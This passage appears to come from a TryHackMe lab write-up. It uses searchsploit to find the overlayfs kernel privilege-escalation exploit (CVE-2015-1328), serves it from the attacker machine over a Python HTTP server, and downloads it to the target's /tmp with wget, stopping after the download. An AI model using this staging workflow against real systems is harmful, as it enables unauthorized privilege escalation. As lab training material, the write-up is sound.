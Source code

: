 <p>Using THM AttackBox or personal VM, run ...</p>

<pre><code>$ searchsploit 3.13.0
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local  | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local  | linux/local/37293.txt
Unified Remote 3.13.0 - Remote Code Execution (RCE)                              | windows/remote/51309.py
--------------------------------------------------------------------------------- ---------------------------------
</code></pre>

<pre><code>$ searchsploit -m 37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /opt/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines
Copied to: /root/37292.c
</code></pre><br>

<pre><code>$ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...    
</code></pre><br>

<p>Now using the Target Machine in /tmp...</p>

<pre><code>$ wget http://10.10.205.28:8000/37292.c
--2024-10-30 21:49:03--  http://10.10.205.28:8000/37292.c
Connecting to 10.10.205.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/plain]
37292.c: Permission denied

Cannot write to ‘37292.c’ (Permission denied).
$ cd /tmp
$ wget http://[Source_IP]:[Source_Port]/37292.c
--2024-10-30 21:49:33--  http://[Source_IP]:[Source_Port]/37292.c
Connecting to [Source_IP]:[Source_Port]... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/plain]
Saving to: ‘37292.c’

100%[===================================================================================================================>] 4,968       --.-K/s   in 0s      

2024-10-30 21:49:33 (1022 MB/s) - ‘37292.c’ saved [4968/4968]
</code></pre><br>

